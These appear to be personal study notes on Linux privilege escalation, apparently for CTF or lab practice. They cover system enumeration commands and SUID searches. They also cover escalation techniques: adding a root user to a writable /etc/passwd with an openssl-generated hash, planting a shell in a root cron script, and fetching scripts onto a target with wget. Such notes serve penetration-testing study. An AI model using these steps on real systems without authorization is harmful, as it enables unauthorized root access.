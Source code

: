 # Linux Privilege Escalation

## Basics and what to look for

- checklists and stuff:
  - <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md>

### Step 1: Manual Enumeration

- `hostname` : get hostname of target machine (maybe it has valuable information in name)
- - `uname -a` : print detailed system information about kernel --> useful for finding kernel vulnerabilities
- `proc/version` : proc filesystem provides info about target system processes; may give information on kernel version and additional info (compiler etc.)
- `/etc/issue` : systems can also be identified by looking at this file; usually contains info about OS
- `ps` : running processes with some information about them
  - `ps -A` : all running processes
  - `ps axjf` : view process tree
  - `ps aux` : processes for all users (a), displays user that launched the process (u)and shows processes that are not attached to a terminal (x)
- `env` : show environmental variables
- `sudo -l` : target system may be configured to run some commands with root privs; this command lists all commands the logged in user can run using sudo
- `ls -la` : no comment necessary
- `id` : provides general overview of user's privilege and group memberships; **can also be used to obtain same information for another user**
- `/etc/passwd` : see further down
  - can easily be cut and converted to useful list for brute-force attacks with: `cat /etc/passwd | cut -d ":" -f 1` or, since real user (i.e. no system users) usually have `home`-directory: `cat /etc/passwd | grep home`
- `history` : look for earalier commands on command line
- `ifconfig`
- `ip route`
- `netstat` : listing existing communications
  - `netstat -a` : show all listening ports and established connections
  - `netstat -at`/`netstat -au` : list only TCP or UDP connections
  - `netstat -l` : list ports in listening mode --> these ports are open!!
  - `netstat -tp` : list connections with service name and PID infor
  - `netstat -ano` : display all sockets, do not resolve names, display timers
- `find` : search target system for important info and potential privilege escalation vectors
  | Command | Purpose |
  | --- | ---|
  | `find . -name flag1.txt` | find the file named “flag1.txt” in the current directory |
  | `find /home -name flag1.txt` | find the file names “flag1.txt” in the /home directory |
  | `find / -type d -name config` | find the directory named config under “/” |
  | `find / -type f -perm 0777` | find files with the 777 permissions (files readable, writable, and executable by all users) |
  | `find / -perm a=x` | find executable files |
  | `find /home -user frank` | find all files for user “frank” under “/home” |
  | `find / -mtime 10` | find files that were modified in the last 10 days |
  | `find / -atime 10` | find files that were accessed in the last 10 day |
  | `find / -cmin -60` | find files changed within the last hour (60 minutes) |
  | `find / -amin -60` | find files accesses within the last hour (60 minutes) |
  | `find / -size 50M` | find files with a 50 MB size |
  | `find / -writable -type d 2>/dev/null` | Find world-writeable folders|
  | `find / -perm -222 -type d 2>/dev/null` | Find world-writeable folders|
  | `find / -perm -o w -type d 2>/dev/null` | Find world-writeable folders|
  | `find / -name perl\*` | Perl?? |
  | `find / -name python\*` | Python?? |
  | `find / -name gcc*` | C?? |

### Step 2: Automated Enumeration

- useful links:
  - <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS>
  - <https://github.com/rebootuser/LinEnum>
  - <https://github.com/mzet-/linux-exploit-suggester>
  - <https://github.com/diego-treitos/linux-smart-enumeration>
  - <https://github.com/linted/linuxprivchecker>

### Step 3: `sudo -l`

- use `sudo -l` to list what commands you are able to use as a super user on that account
- sometimes like this you'll find that you're able to **run certain commands as root without the root password**
- with a misconfigured binary like this we can try to explain them with `GTFOBins` (Unix binaries that can be exploited by attacker to bypass local security restriction) --> <https://gtfobins.github.io/>

### Step 4: check for files with SUID/GUID bit set

- special type file permission which allows file to run with permissions of whoever the owner is --> if it is root: **BINGO**
  - files can be run with permissions of the files owner/group
- when special permission is given to each user it becomes SUID or SGID
  - when extra bit “4” is set to user(Owner) it becomes SUID (Set user ID)
  - when bit “2” is set to group it becomes SGID (Set Group ID)
- permissions to look for when looking for SUID: `rws-rwx-rwx`
- permissions to look for when looking for SUID: `rwx-rws-rwx`
- **finding SUID/GUID Binaries:**
  - `find / -perm -u=s -type f 2>/dev/null` explained:
    - `find` command
    - `/` search whole file system
    - `-perm` search for files with specific permissions
    - `-u=s` any of the permission bits mode are set for the files
    - `-type f` only search filge
    - `2>/dev/null` suppress errors

### Step 5: can we read/write sensitive files?

- interesting files e.g.:
  - `/etc/passwd` --> plan text file
    - if we have write access to this file: vulnerability that can allow the creation of a root user that we can access
    - file format:
      - total of seven columns separated by colons:
        - Example: `test:x:0:0:root:/root:/bin/bash`
          1. Username: login name
          2. Password: `x` character indicates that encrypted password is stored in `/etc/shadow`
          3. UserID (UID)
             1. UID 0 = reserved for root
             2. UIDs 1-99 reserved for predefined accounts
             3. UIDs 100-999 reserved by system for administrative and system accounts/groups
             4. UID > 999: Users
          4. GroupID
          5. UserID Info
          6. Home directory
          7. Command/Shell: absolute path of command or shell
    - **Exploit** `/etc/passwd`:
      - simple: if we have writable `/etc/passwd` we can
        - write new line entry to create new user...
        - ...add password hash of our choice
        - set the UID, GID and shell to root allowing us to log in as our own root user
      - Example:
        - create compliant password hash: `openssl passwd -1 -salt [salt] [password]`
        - take this value (WATCHOUT: special characters need to be escaped like `$` with `\$`) to create new root user account
          `newusername:<hashvalue>:0:0:root:/root:/bin/bash`
          Example (with \$): `newuser:\$1\$new\$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`
        - then you can login using the username and password hash with: `su -l <username>`
- Kernel information --> for kernel exploits
- can we read/write sensitive files?
  - world-writable files: files that any authenticated user can read and write to
  - looking at the permissions of these files, we can check if there is any misconfiguration that allows low privilege users to write to sensitive files
- SUID files
- Crontab Contents --> exploiting yet to check

### Step 6: Cron

- what cronjobs are active: `cat /etc/crontab`
- how to exploit:
  - look for cronjobs oder files that are being invoked by cronjob that are owned by root and if they are writable
  - create command that will return a shell and paste it in the file
  - when the file is executed again the script is run as root

### Step 7: Check PATH-Variable

- show PATH: `echo $PATH`
- how to escalate privileges:
  - if we have a SUID binary, we can rewrite the PATH variable to a location of our choosing
  - ??? nochmal checken wie genau das geht, war schlecht beschrieben

## How to get privlege escalation scripts on target machine

- different possibilites:
  - go to directory, where local copy of privesc script is located on the attaker machine and
    - start webserver: `python3 -m http.server 8000`
    - on the target machine: `wget` and grab the file from the local machine
    - then on target machine make the file executable: `chmod +x <filename.sh>`
  - copy the raw code from Zwischenablage in new file on target machine, save the file with `.sh`-extension and make file executable

## Further Reading

- <https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html>
- <https://payatu.com/blog/a-guide-to-linux-privilege-escalation/>
- <https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>
- <https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/>
- ...
